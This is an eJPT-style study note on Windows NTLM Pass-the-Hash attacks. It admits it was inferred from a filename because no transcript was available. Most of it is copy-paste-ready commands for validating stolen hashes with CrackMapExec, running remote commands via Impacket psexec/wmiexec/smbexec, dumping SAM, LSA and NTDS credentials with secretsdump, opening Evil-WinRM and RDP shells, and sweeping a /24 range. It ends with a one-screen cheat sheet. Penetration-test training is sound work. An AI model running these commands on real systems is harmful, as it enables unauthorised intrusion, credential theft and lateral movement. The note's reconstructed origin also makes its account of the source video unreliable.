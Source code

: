 # 05 - Pass-the-Hash Attacks (eJPT)

Note: No transcript was provided. The following is a conservative, exam-focused summary inferred from the filename and typical eJPT/Kali workflows for Windows NTLM Pass-the-Hash (PtH).

## What the video covers (Introduction / big picture)
- What Pass-the-Hash is: authenticating to Windows services using an NTLM hash instead of the cleartext password.
- When to use it: after obtaining NTLM hashes (e.g., from a prior compromise, SAM/LSA dump) to laterally move without cracking passwords.
- Protocols that accept NTLM PtH: SMB (445), WMI/DCOM, WinRM (5985/5986), RDP (3389, with NLA).
- Typical goals: verify hash validity, enumerate shares, execute commands remotely, dump more credentials, and pivot.
- Key tools: Impacket (psexec.py, wmiexec.py, smbexec.py, smbclient.py, secretsdump.py), CrackMapExec, Evil-WinRM, xfreerdp, Samba smbclient with --pw-nt-hash.

## Flow (ordered)
1. Identify Windows targets/services (SMB/WinRM/RDP) with Nmap.
2. Obtain an NTLM hash (from previous steps: local SAM/LSASS dump, loot, etc.).
3. Validate the hash against a target using CrackMapExec (CME).
4. Enumerate SMB shares and accessible resources.
5. Execute commands remotely (psexec/wmiexec/smbexec) using the hash.
6. Dump credentials from the target (secretsdump) for further lateral movement.
7. Optionally, open interactive shells via Evil-WinRM or RDP (xfreerdp) with the hash.
8. Pivot to other hosts; repeat validation and execution.
9. Clean up artifacts and keep logs.

## Tools highlighted
- Impacket:
  - psexec.py / impacket-psexec
  - wmiexec.py / impacket-wmiexec
  - smbexec.py / impacket-smbexec
  - smbclient.py / impacket-smbclient
  - secretsdump.py / impacket-secretsdump
- CrackMapExec (CME)
- Evil-WinRM
- xfreerdp (FreeRDP)
- Samba smbclient (supports --pw-nt-hash; alternatively legacy pth-toolkit utilities on some systems)

## Typical command walkthrough (detailed, copy-paste friendly)
Assumptions (replace with your values):
- Target: 10.10.11.23
- Domain: ACME (omit -d or prefix if local account)
- User: Administrator
- NTLM hash: 8846f7eaee8fb117ad06bdd830b7586c (example)

1) Confirm target services
```bash
nmap -p 445,139,3389,5985 -sT -Pn 10.10.11.23
```

2) Validate the hash with CrackMapExec (local admin example)
```bash
crackmapexec smb 10.10.11.23 -u Administrator -H 8846f7eaee8fb117ad06bdd830b7586c --local-auth
# Domain account example:
# crackmapexec smb 10.10.11.23 -u Administrator -H 8846f7eaee8fb117ad06bdd830b7586c -d ACME
```

3) Enumerate SMB shares (quick win)
```bash
crackmapexec smb 10.10.11.23 -u Administrator -H 8846f7eaee8fb117ad06bdd830b7586c --local-auth --shares
```

4) Access a share using the hash (Samba smbclient)
```bash
# List shares
smbclient -L //10.10.11.23 -U 'Administrator' --pw-nt-hash --password=8846f7eaee8fb117ad06bdd830b7586c

# Connect to C$ and run a command (list dir)
smbclient //10.10.11.23/C$ -U 'Administrator' --pw-nt-hash --password=8846f7eaee8fb117ad06bdd830b7586c -c 'dir'
# Domain-form:
# smbclient //10.10.11.23/C$ -U 'ACME\\Administrator' --pw-nt-hash --password=8846f7eaee8fb117ad06bdd830b7586c
```

5) Execute commands with Impacket (PtH via NTLM)
- psexec (service-based, returns semi-interactive cmd.exe)
```bash
impacket-psexec Administrator@10.10.11.23 -hashes :8846f7eaee8fb117ad06bdd830b7586c
# or:
# psexec.py -hashes :8846f7eaee8fb117ad06bdd830b7586c ACME/Administrator@10.10.11.23
```
- wmiexec (WMI/DCOM, often bypasses some service creation restrictions)
```bash
impacket-wmiexec Administrator@10.10.11.23 -hashes :8846f7eaee8fb117ad06bdd830b7586c
# or:
# wmiexec.py -hashes :8846f7eaee8fb117ad06bdd830b7586c ACME/Administrator@10.10.11.23
```
- smbexec (SMB-based exec, fileless-like approach)
```bash
impacket-smbexec Administrator@10.10.11.23 -hashes :8846f7eaee8fb117ad06bdd830b7586c
# or:
# smbexec.py -hashes :8846f7eaee8fb117ad06bdd830b7586c ACME/Administrator@10.10.11.23
```

6) Dump credentials for further movement
```bash
# Dump local SAM/LSA secrets (requires admin on target)
impacket-secretsdump Administrator@10.10.11.23 -hashes :8846f7eaee8fb117ad06bdd830b7586c

# If target is a Domain Controller, dump NTDS (example):
# impacket-secretsdump -just-dc ACME/Administrator@10.10.11.10 -hashes :8846f7eaee8fb117ad06bdd830b7586c
```

7) Interactive shells with the hash
- Evil-WinRM (WinRM must be enabled)
```bash
evil-winrm -i 10.10.11.23 -u Administrator -H 8846f7eaee8fb117ad06bdd830b7586c
```
- RDP (NLA) with FreeRDP pass-the-hash
```bash
xfreerdp /v:10.10.11.23 /u:Administrator /pth:8846f7eaee8fb117ad06bdd830b7586c
# Domain-form:
# xfreerdp /v:10.10.11.23 /u:ACME\\Administrator /pth:8846f7eaee8fb117ad06bdd830b7586c
```

8) Quick multi-host validation (lateral reachability)
```bash
# Test a /24 range for valid hash and list shares where possible
crackmapexec smb 10.10.11.0/24 -u Administrator -H 8846f7eaee8fb117ad06bdd830b7586c --local-auth --shares
```

Tips for hash formatting in Impacket:
- You can supply only the NT hash by prefixing with a colon: -hashes :NTHASH
- Full LM:NT format also works; use a null LM placeholder if needed:
  - -hashes aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c

## Practical tips
- You still need appropriate privileges: PtH does not grant more rights than the account has. Remote command execution over SMB/WMI typically requires local administrator on the target.
- Local vs domain accounts:
  - Use --local-auth in CrackMapExec for local accounts.
  - Prefix domain in Impacket as DOMAIN/username@host.
- If psexec fails with Access Denied, try wmiexec.py or smbexec.py; Windows remote UAC and service creation policies can block certain methods for non-built-in local admins.
- For SMB share access with hashes, prefer smbclient with --pw-nt-hash. Legacy pth-smbclient/pth-winexe exist on some systems, but Impacket and Samba are more standard.
- Be careful with account lockouts: repeated bad attempts can lock accounts. Validate once, then proceed surgically.
- RDP/NLA PtH works with xfreerdp /pth on many setups, but not all environments allow NTLM over RDP; fall back to Evil-WinRM or SMB/WMI if needed.
- After dumping credentials with secretsdump, immediately test newly found hashes to expand access.
- Keep consistent notation: LM:NT vs :NT; avoid trailing spaces; escape backslashes in shells (ACME\\Administrator).
- Document your steps and cleanup: some exec methods create/clean services; verify artifacts are removed.

## Minimal cheat sheet (one-screen flow)
```bash
# Replace IP, USER, DOMAIN, HASH below

# Scan target for SMB/WinRM/RDP
nmap -p 445,139,3389,5985 -sT -Pn <IP>

# Validate hash (local admin)
crackmapexec smb <IP> -u <USER> -H <NTHASH> --local-auth
# Domain account alternative
# crackmapexec smb <IP> -u <USER> -H <NTHASH> -d <DOMAIN>

# List shares
crackmapexec smb <IP> -u <USER> -H <NTHASH> --local-auth --shares

# SMB share access with hash
smbclient -L //<IP> -U '<USER>' --pw-nt-hash --password=<NTHASH>
smbclient //<IP>/C$ -U '<USER>' --pw-nt-hash --password=<NTHASH> -c 'dir'

# Remote command execution (choose one)
impacket-psexec <USER>@<IP> -hashes :<NTHASH>
impacket-wmiexec <USER>@<IP> -hashes :<NTHASH>
# Domain-form:
# impacket-wmiexec <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

# Dump creds
impacket-secretsdump <USER>@<IP> -hashes :<NTHASH>

# WinRM shell
evil-winrm -i <IP> -u <USER> -H <NTHASH>

# RDP (if allowed)
xfreerdp /v:<IP> /u:<USER> /pth:<NTHASH>
```

## Summary
- Pass-the-Hash lets you authenticate with an NTLM hash instead of a password to services that accept NTLM (SMB, WMI, WinRM, RDP).
- The typical eJPT workflow: discover Windows targets, validate the hash with CME, enumerate shares, execute commands (psexec/wmiexec/smbexec), dump more credentials (secretsdump), and pivot. For interactive access, Evil-WinRM and xfreerdp /pth are common.
- Use Impacket’s -hashes :NTHASH syntax, apply --local-auth for local accounts in CME, and handle domain accounts with DOMAIN/username. If one exec method fails, try another.
- With no transcript available, the commands and flow above reflect standard, practical PtH procedures used in eJPT labs and Windows lateral movement.